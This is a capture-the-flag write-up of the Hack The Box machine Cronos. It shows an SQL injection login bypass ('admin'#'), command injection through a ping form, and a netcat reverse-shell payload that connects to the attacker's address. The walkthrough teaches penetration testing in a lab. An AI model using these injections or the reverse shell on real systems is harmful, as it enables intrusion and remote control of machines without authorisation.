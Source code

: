 <span style="color:cyan">http://admin.cronos.htb</span>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(2).png)

## Initial Foothold

<span style="color:cyan">http://admin.cronos.htb</span>


We tried default creds such as admin admin
But nothing worked.

Let's try some sql injection : [link](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

>admin'#

It worked

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(3).png)

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(4).png)

I found a ping option, let's use it and see if I can ping back my local machine.

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(5).png)



The ping is working.

Seems like an attack vector. Let's capture the request using burpsuite.



<span style="color:yellow">Method 1 (Using burpsuite):</span>

Change the command:

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(6).png)

Hit FORWARD.

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(7).png)

<span style="color:yellow">Method 2:</span>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(8).png)

Output:

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(9).png)



Grab a shell from [here](https://www.revshells.com/).

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 1234 >/tmp/f</span></div>
<br>
